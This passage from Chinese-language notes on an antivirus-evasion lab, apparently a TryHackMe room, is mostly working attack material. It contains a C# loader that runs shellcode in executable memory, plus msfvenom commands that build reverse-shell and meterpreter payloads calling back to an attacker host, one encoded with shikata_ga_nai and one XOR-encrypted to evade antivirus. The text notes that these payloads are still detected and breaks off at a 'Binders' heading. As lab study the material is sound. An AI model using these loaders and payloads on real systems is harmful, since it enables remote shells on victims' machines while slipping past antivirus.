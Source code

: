 ```csharp
    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

上两个房间的什么进程注入那些已经详细讲过了

生成shellcode

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.39.48 LPORT=8888 -f raw -o shellcode.bin -b '\x00\x0a\x0d'

## Shellcode 编码和加密

### 使用 MSFVenom 进行编码

Metasploit等公共工具提供编码和加密功能。但是，AV供应商了解这些工具构建其有效载荷的方式，并采取措施对其进行检测。如果您尝试使用开箱即用的此类功能，则一旦文件接触受害者的磁盘，您的有效负载就会被检测到。

	msfvenom --list encoders | grep excellent
	msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp

如果我们尝试将新生成的有效负载上传到我们的测试机器，AV 会在我们有机会执行它之前立即标记它：

![在这里插入图片描述](https://img-blog.csdnimg.cn/e774be088b3b4215a673e5405d0e7270.png)

### 使用 MSFVenom 进行加密

查看支持的加密类型

	msfvenom --list encrypt

生成xor加密的payload

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe

再一次，如果我们将生成的外壳上传到THM防病毒检查！页，**它仍将被 AV 标记。原因仍然是AV供应商投入了大量时间来确保检测到简单的msfvenom有效载荷。**

C#的自定义编码/解码器我就不在这里记录了，也是非常的简单，thm也给出了示例

## Binders
